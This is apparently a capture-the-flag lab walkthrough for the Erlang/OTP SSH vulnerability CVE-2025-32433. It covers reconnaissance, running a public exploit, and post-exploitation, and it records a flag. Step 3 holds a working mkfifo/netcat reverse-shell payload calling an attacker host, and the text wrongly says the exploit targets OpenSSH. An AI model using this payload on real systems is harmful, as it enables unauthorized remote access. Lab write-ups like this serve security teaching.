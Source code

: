 # <div align="center">Erlang/OTP SSH: CVE-2025-32433</div>
<div align="center">Learn about and exploit Erlang/OTP SSH CVE-2025-32433 in a lab setup.</div>
<div align="center">
  <img src="https://github.com/user-attachments/assets/b452eef7-47a9-4d7c-8d81-766659f06f73" height="200"></img>
</div>

### Task 1. Introduction

Erlang is a programming language made for building reliable, real-time systems that can handle many users at once. It was originally created by Ericsson for telecom use but is now used in many industries to build distributed systems.

OTP (Open Telecom Platform) is a set of tools and libraries that work with Erlang to help build these systems. Even though it started in telecom, OTP is now used more broadly for any kind of distributed application. Together, they're often called Erlang/OTP.

Erlang is used by many companies for product development and by universities for teaching and research.

One part of OTP is the SSH module, which lets Erlang systems use secure shell access and transfer files safely.

Recently, a critical vulnerability (CVE-2025-32433) was found in the Erlang/OTP SSH. It allows attackers to run code on the system without logging in. This issue was discovered by researchers at Ruhr University Bochum and has a CVSS score of 10.0, which means it’s extremely serious.

## Task 2: Exploitation Walkthrough

### Step 1: Reconnaissance

We begin by performing an initial service enumeration using Nmap:

```bash
nmap 10.10.237.184 -sV -sC
```

**Nmap Output Summary:**
```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     Erlang/5.2.9
2222/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.9
```

The system is running two SSH services:
- Port **22**: `SSH-2.0-Erlang/5.2.9`
- Port **2222**: `OpenSSH 9.6p1 (Ubuntu)`

---
### Step 2: CVE Exploitation

We will target the outdated OpenSSH service using a public exploit: **CVE-2025-32433**.

Clone the exploit from GitHub:
```bash
git clone https://github.com/ProDefense/CVE-2025-32433
cd CVE-2025-32433
```

Now, configure the IP and port in the exploit script as per the target:

![Configuring exploit](https://github.com/user-attachments/assets/ce2f79c8-7c53-42c1-aabf-8dc912c4bee4)

Run the exploit:
```bash
python3 CVE-2025-32433.py
```

**Expected Output:**
- Confirmation that the exploit has been sent
- A banner or response from the SSH server
- Confirmation that `/lab.txt` has been written

![Exploit run output](https://github.com/user-attachments/assets/987f3e81-c22c-421b-99a1-3f197161cd36)

---
### Step 3: Reverse Shell Execution

To escalate and gain a reverse shell, modify the payload in the exploit to use Erlang's `os:cmd()` for command execution:

![2025-04-25_14-12](https://github.com/user-attachments/assets/987f3e81-c22c-421b-99a1-3f197161cd36)

Replace with:

```erlang
os:cmd("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.17.46.171 8000 >/tmp/f | nc 10.17.46.171 4444").
```

![Payload injection](https://github.com/user-attachments/assets/d8275718-5035-4378-b5c9-99a725aaba3b)

Set up two Netcat listeners on the attack machine:

**Terminal 1**:
```bash
nc -lnvp 4444
```

**Terminal 2**:
```bash
nc -lnvp 8000
```

Once executed, you should receive a shell connection:

![Netcat Shell Received](https://github.com/user-attachments/assets/fc348189-b7d1-46c1-9733-7cab7eb73505)

---
### Step 4: Post-Exploitation

Now we are inside the system.

#### Shell Access Confirmation:

![Shell confirmation](https://github.com/user-attachments/assets/3b583013-2a6f-4b94-8cb3-7acf43caeb05)

#### Retrieve User Flag:

```bash
cat flag.txt
```

![Flag](https://github.com/user-attachments/assets/dc62f636-3236-4a85-96a5-353f53825703)
<!--
```
THM{U57U3P5KnR}
``` -->

#### Confirm Hostname:
```bash
uname -a
```

![Hostname](https://github.com/user-attachments/assets/c739d61f-291f-4dfd-9c4c-0bc512aefc9d)

```
c7b79fd068ba
```

